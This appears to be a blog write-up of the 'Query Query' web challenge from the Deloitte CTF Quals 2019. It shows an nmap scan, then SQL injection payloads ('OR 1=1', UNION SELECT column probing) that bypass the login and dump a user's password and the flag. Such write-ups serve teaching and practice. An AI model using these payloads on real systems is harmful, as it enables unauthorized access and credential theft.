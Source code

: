 ```yaml
---
title: Deloitte CTF Quals 2019: Query Query 👸🏻
slug: deloitte-query-query
date: 06/11/2019
---
```


*Query query on the wall.. Who's the fairest of them all? 👸🏻* was a task
labelled web and worth 120 points. It is a standard SQL injection.

![Task Description](/assets/query-query/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 52.56.149.188
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:46 GMT
Nmap scan report for ec2-52-56-149-188.eu-west-2.compute.amazonaws.com (52.56.149.188)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  443/tcp  open     https
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

Just a web application on port 443:

![Web Application](/assets/query-query/web_app.png)

From the title of the challenge, we can imagine that our objective is to
perform an SQL injection. Let's try a very simple payload on the `username`
field of the `/login` page.

![Web Application](/assets/query-query/login.png)

A simple `'` crashes the application, so this field is most likely injectable.

![Web Application](/assets/query-query/crash.png)

Let's try to login as `user`. This particular username may not exist but
it will give us some information on how the application behaves:

```sql
user' OR 1=1 --
```

And we get logged as `TESTIING`.

![TESTIING](/assets/query-query/testiing.png)

*Note: Although it is not accessible via a link or button, a `/logout` route
exists and works.*

Let's try with a username that will most likely not exist:

```sql
does_not_exist' OR 1=1 --
```

We are logged as `TESTIING` again. Maybe the SQL query is very weird and still
manages to get this user. Let's ignore this for now and carry on.

According to the challenge description, the flag is the password of one of the
users stored in the database. Let's see if we can display `TESTIING`'s password.
We are going to use the `UNION SELECT` method, so the first step is to determine
how many columns are queried before our input.

```
whocares' UNION SELECT 1 --
whocares' UNION SELECT 1, 2 --
whocares' UNION SELECT 1, 2, 3 --
```

All these payloads crashes the application.

```sql
whocares' UNION SELECT 1, 2, 3, 4 --
```

This payload does not crash the application and logs us as `2`.

![Logged as 2](/assets/query-query/two.png)

Let's replace the numbers by actual column names. We guess that the `id`
column exists and that the password column is named `password`.

```sql
whocares' UNION SELECT id, password, id, id from users --
```

We are now logged as `monkey28`, which is the password of `TESTIING`.

![Logged as monkey](/assets/query-query/monkey.png)

Let's add a constraint on the password column that matches the flag format:

```sql
whocares' UNION SELECT id, password, id, id from users where password like "dctf%" --
```

And we have our flag!

![The flag](/assets/query-query/flag.png)

Final flag: `dctf{c0m3_0n_3113333n!}`.